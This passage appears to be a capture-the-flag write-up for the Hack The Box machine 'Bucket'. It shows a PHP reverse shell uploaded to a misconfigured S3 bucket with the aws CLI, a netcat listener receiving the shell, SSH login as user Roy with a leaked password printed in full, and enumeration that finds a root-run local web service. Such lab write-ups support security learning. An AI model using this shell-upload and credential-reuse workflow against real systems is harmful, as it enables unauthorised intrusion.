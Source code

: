 Alright we see the content that was being displayed earlier on the main website. Only thing that comes to mind now is to upload a webshell and browse to it. 

{%highlight text%}
$ aws --endpoint-url http://s3.bucket.htb s3 cp php-reverse-shell.php s3://adserver
upload: ./php-reverse-shell.php to s3://adserver/php-reverse-shell.php

aws --endpoint-url http://s3.bucket.htb s3 ls s3://adserver
                           PRE images/
2021-04-10 05:28:04       5344 index.html
2021-04-10 05:28:33       5494 php-reverse-shell.php
{%endhighlight%}

Now browse to `http://bucket.htb/php-reverse-shell.php` and we get a shell back!

{%highlight text%}
$ nc -lvp 1234
Listening on 0.0.0.0 1234
Connection received on bucket.htb 51114
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:29:30 up  6:27,  0 users,  load average: 0.02, 0.06, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
{%endhighlight%}

Looking around I found a user "Roy" and tried to ssh with the name "ROY" and the password "n2vM-<_K_Q:.Aa2" (From earlier) and we get the user flag.

Started looking around and found some interesting open ports.

{%highlight text%}
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:33073         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
{%endhighlight%}

Port 8000 was not available when I scanned from outside. Neither was 4566. I curled the port 8000 and 4566 and got some content back. I decided to find their source code. I went ahead and found the apache config file.

{%highlight text%}
<VirtualHost 127.0.0.1:8000>
	<IfModule mpm_itk_module>
		AssignUserId root root
	</IfModule>
	DocumentRoot /var/www/bucket-app
</VirtualHost>

ProxyPass / http://localhost:4566/
	ProxyPassReverse / http://localhost:4566/
	<Proxy *>
		 Order deny,allow
		 Allow from all
	 </Proxy>
	ServerAdmin webmaster@localhost
	ServerName s3.bucket.htb
{%endhighlight%}
